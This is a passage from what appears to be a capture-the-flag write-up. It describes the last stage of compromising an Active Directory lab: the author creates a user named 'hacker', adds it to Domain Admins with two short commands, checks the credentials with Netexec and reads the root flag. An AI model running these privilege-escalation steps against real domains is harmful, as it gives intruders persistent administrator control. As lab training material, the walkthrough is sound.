

From here, I could either add `svc_ldap` straight into `Domain Admins`, or create a fresh user and do the same without touching the existing account. I'll go with the second option and create a user called `hacker`:

```
add_user hacker
```



A password gets generated automatically for this account. I could change it, but I'll just keep the default. Now I'll add this user to `Domain Admins`:

```
add_user_to_group hacker "Domain Admins"
```



`Netexec` confirms these credentials work.



Finally, I get a shell as `hacker` and read the root flag.



---